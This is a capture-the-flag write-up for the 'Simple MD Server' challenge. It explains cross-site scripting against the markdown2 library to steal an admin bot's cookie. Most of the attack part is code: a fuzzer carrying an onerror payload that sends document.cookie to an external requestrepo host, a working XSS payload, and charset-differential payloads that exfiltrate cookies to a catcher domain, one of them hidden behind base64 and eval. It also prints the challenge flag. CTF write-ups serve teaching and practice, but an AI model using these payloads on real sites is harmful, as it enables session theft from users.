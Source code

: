 #md #xss #fuzzer #charset 
# ecsc24 - Simple MD Server
## Description
Yes, another markdown editor, but this time we keep it simple!
Site: [http://simplemdserver.challs.open.ecsc2024.it:47008](http://simplemdserver.challs.open.ecsc2024.it:47008)
## Overview
Classic notes app, supports **markdown**.
## Road to flag
The flag is inside admin bot's cookies:
```js
r = requests.post(
	BOT_HOST,
	headers={"X-Auth": BOT_SECRET},
	json={
		"actions": [
			{
					"type": "request",
					"url": CHALL_HOST,
			},
			{
					"type": "set-cookie",
					"name": "flag",
					"value": FLAG,
			},
			{
					"type": "request",
					"url": visit_url,
			},
		]
	},
)
```
-> XSS

## Exploit (unintended solution)
I just fuzzed the markdown parser:
```python
import markdown2
import random
from bs4 import BeautifulSoup

def generate_random_md(codes):
    random_md = []
    length = random.randint(1, 50)
    payload = "//onerror=fetch(\"http://g106vnrl.requestrepo.com/?c=\"+document.cookie)"

    for i in range(length):
        random_index = random.randint(0, len(codes) - 1)
        if i == 0:
            random_md.append(codes[random_index].format(p=payload))
        else:
            random_md.append(codes[random_index].format(p=random_md[-1]))

    return ' '.join(random_md)


def check_for_unusual_attributes(element):
    usual_attributes = ['alt','src','href','title']
    found_attributes = set()
    soup = BeautifulSoup(element, 'html.parser')

    for tag in soup.find_all(True):
        for attr in tag.attrs:
            if attr not in usual_attributes:
                found_attributes.add(attr)
    
    return found_attributes

def start_fuzzing():
    codes = ["[{p}]({p})","https://x.com/?{p}","id=1","({p})","![{p}]({p})","`{p}`","*{p}*","> {p}","__{p}__",
    "# {p}","- {p}","[{p}]:","{p}\n-------------","> 1. {p}","[{p}][]\n[{p}]: http://{p}","![{p}][]\n[{p}]: http://{p}? \"{p}\"", "<p>{p}</p>", "<svg>"]

    try:
        while True:
            random_md = generate_random_md(codes)
            html = markdown2.markdown(random_md, safe_mode="escape")
            unusual_attributes = check_for_unusual_attributes(html)
            if unusual_attributes:
                print('Generated BBCode:', random_md)
                print('Unusual attributes found:', unusual_attributes)
                with open("payload.txt","w") as file:
                    file.write(random_md)
                break 
    except:
        pass

if __name__ == "__main__":
    start_fuzzing()
```
And came up with a payload that triggers xss:
```
![](`" onerror=alert()//`)
```
Why this works? The library inserts code blocks into img `src` attribute, and does not escape quotes in `code` blocks.

`openECSC{K33P_I7_51Mple____?}`


#### Intended solution
The intended solution leverages [encoding differentials](<TL;DR: https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/>)
```
payload = URL + '/preview?x=aaa%1B(Baaaaa' + 'a%1B$@!2%1B(B' * 200 + f'''aaaaa%1B(B ![img%1B$@!](file://a)%1B(B ![red]( onerror=location.assign('{hook_url}?'%26%2343;document.cookie) )wwwww'''

// or

JS = "fetch('https://pwn.requestcatcher.com/pwn?' + document.cookie); while(1);"
JS = f"eval(atob('{base64.b64encode(JS.encode()).decode()}'))"

PAYLOAD = b"[\x1b(B](pwn '\x1b$@')[pwn]( url#= ' autofocus onfocus=" + JS.encode() + b"//')"
```
